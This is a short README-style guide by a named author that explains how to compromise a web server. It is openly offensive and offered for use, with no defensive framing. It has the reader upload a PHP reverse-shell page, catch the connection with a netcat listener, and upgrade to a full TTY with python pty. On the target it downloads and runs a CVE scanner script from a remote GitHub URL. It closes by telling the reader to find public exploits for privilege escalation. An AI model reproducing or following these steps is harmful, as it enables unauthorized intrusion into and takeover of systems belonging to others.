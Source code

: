 Reverse Shell & CVE Exploitation Guide
Author: Khayrol Islam
Telegram: @DevidLuice

1. Upload reverseshell.php to Your Host
First, upload your reverseshell.php file to your web server/hosting.

Then open the URL in your browser:

arduino
Copy
Edit
http://your-host.com/reverseshell.php
📸 Example Screenshot:

2. Start Netcat Listener
On your machine, run:

yaml
Copy
Edit
nc -lnvp 1337
3. Enter Your Public IP and Port in reverseshell.php
Input your public IP address and the port (example: 1337) inside the form of reverseshell.php.

📸 Example Screenshot:

4. Receive Reverse Shell
After entering the IP and port, the server will connect back to your machine.

You will get a reverse shell in your Netcat terminal.

5. Upgrade to Full TTY Shell
Once connected, upgrade the shell for better control:

rust
Copy
Edit
python3 -c 'import pty; pty.spawn("/bin/bash")'
(If python3 is not available, try with python.)

6. Download and Run CVE Detector
Download the Linux CVE detector script:

bash
Copy
Edit
curl https://raw.githubusercontent.com/mrTr1cky/linux_priv_Guid-/refs/heads/main/cve-detector.sh -o cve-detector.sh
Make it executable:

bash
Copy
Edit
chmod +x cve-detector.sh
Run the script:

bash
Copy
Edit
./cve-detector.sh
This will scan the system for known vulnerabilities (CVEs).

7. Exploit Detected Vulnerabilities
After getting the list of CVEs from cve-detector.sh,

Find public exploits related to those CVEs,

Use them to escalate privileges on the target system.

🚀 Happy Hacking!
Author: Khayrol Islam
Telegram: @DevidLuice
